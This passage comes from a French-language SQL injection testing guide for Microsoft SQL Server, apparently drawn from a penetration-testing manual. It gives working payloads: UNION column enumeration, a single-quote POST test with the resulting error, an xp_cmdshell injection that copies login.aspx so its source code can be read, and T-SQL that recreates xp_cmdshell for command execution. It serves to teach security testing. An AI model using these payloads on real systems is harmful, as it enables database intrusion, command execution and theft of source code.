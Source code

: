 ### Exemple 2 : Test d'injection SQL dans une requête GET

Pour savoir combien de colonnes existent

`https://vulnerable.web.app/list_report.aspx?number=001%20UNION%20ALL%201,1,'a',1,1,1%20FROM%20users;--`

### Exemple 3 : test dans une requête POST

Injection SQL, contenu HTTP POST : `email=%27&whichSubmit=submit&submit.x=0&submit.y=0`

Un exemple de publication complet (`https://vulnerable.web.app/forgotpass.asp`):

```txt
POST /forgotpass.asp HTTP/1.1
Host: vulnerable.web.app
[...]
Referer: http://vulnerable.web.app/forgotpass.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

email=%27&whichSubmit=submit&submit.x=0&submit.y=0
```

Le message d'erreur obtenu lorsqu'un caractère `'` (guillemet simple) est entré dans le champ email est :

```txt
Microsoft OLE DB Provider for SQL Server error '80040e14'
Unclosed quotation mark before the character string '' '.
/forgotpass.asp, line 15
```

### Exemple 4 : Encore un autre exemple GET (utile)

Obtenir le code source de l'application

`a' ; master.dbo.xp_cmdshell ' copy c:\inetpub\wwwroot\login.aspx c:\inetpub\wwwroot\login.txt';--`

### Exemple 5 : `xp_cmdshell` personnalisé

Tous les livres et articles décrivant les meilleures pratiques de sécurité pour SQL Server recommandent de désactiver `xp_cmdshell` dans SQL Server 2000 (dans SQL Server 2005, il est désactivé par défaut). Cependant, si nous avons des droits sysadmin (nativement ou en forçant brutalement le mot de passe sysadmin, voir ci-dessous), nous pouvons souvent contourner cette limitation.

Sur SQL Server 2000 :

- Si `xp_cmdshell` a été désactivé avec `sp_dropextendedproc`, nous pouvons simplement injecter le code suivant :

`sp_addextendedproc 'xp_cmdshell','xp_log70.dll'`

- Si le code précédent ne fonctionne pas, cela signifie que le `xp_log70.dll` a été déplacé ou supprimé. Dans ce cas, nous devons injecter le code suivant :

```sql
CREATE PROCEDURE xp_cmdshell(@cmd varchar(255), @Wait int = 0) AS
    DECLARE @result int, @OLEResult int, @RunResult int
    DECLARE @ShellID int
    EXECUTE @OLEResult = sp_OACreate 'WScript.Shell', @ShellID OUT
    IF @OLEResult <> 0 SELECT @result = @OLEResult
    IF @OLEResult <> 0 RAISERROR ('CreateObject %0X', 14, 1, @OLEResult)
    EXECUTE @OLEResult = sp_OAMethod @ShellID, 'Run', Null, @cmd, 0, @Wait
    IF @OLEResult <> 0 SELECT @result = @OLEResult
    IF @OLEResult <> 0 RAISERROR ('Run %0X', 14, 1, @OLEResult)
    EXECUTE @OLEResult = sp_OADestroy @ShellID
    return @result
```
